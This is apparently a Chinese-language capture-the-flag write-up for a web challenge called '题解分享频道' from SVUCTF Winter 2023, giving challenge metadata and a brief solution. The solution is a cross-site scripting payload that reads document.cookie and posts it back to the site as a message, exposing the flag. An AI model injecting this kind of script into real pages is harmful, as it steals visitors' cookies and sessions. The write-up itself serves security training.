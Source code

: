 # 题解分享频道

- 作者：13m0n4de
- 参考：-
- 难度：Normal
- 分类：Web
- 镜像：[svuctf-winter-2023/writeup_channel](https://ghcr.io/svuctf/svuctf-winter-2023/writeup_channel:latest)
- 端口：5000

## 题目描述

**请勿分享自己的链接，或点击其他人分享的链接，以免造成安全问题**

> 得到的 Flag 字符串可能被 URL 编码过，注意解码

## 题目解析

```html
<script>
    var form_data = new FormData();
    form_data.append("message", document.cookie);
    fetch("/", {
    	"method": "POST",
    	"body": form_data,
    });
</script>
```
